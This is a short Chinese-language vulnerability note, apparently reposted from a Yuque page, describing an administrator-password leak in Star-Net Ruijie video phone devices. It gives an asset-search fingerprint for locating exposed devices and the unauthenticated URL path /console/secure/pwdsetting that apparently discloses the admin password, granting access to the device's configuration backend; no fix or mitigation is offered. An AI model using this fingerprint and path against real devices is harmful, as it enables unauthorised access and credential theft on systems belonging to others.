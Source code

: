 # 星网锐捷视频话机设备pwdsetting管理密码泄漏

**一、漏洞简介**  
<font style="color:rgb(34, 34, 34);">星网锐捷视频话机设备  泄露管理员密码，攻击者可利用密码直接进入后台配置页面，执行恶意操作，为进一步攻击提供帮助。</font>  
**二、影响版本**

星网锐捷视频话机设备

**三、资产测绘**

```plain
body="tmid_top_label"
```

●登录页![1711938753201-a499e700-224a-4dd8-bf3b-ea7d54ed1574.png](./img/DzvaFQV7DsT5tO_q/1711938753201-a499e700-224a-4dd8-bf3b-ea7d54ed1574-768831.png)

**四、漏洞复现**

```plain
/console/secure/pwdsetting
```

![1711938770662-d997d58a-e99d-4997-8e3a-2ff9d2977ab8.png](./img/DzvaFQV7DsT5tO_q/1711938770662-d997d58a-e99d-4997-8e3a-2ff9d2977ab8-412419.png)



> 更新: 2024-06-24 11:42:25  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/cmom2yrgpqpou44c>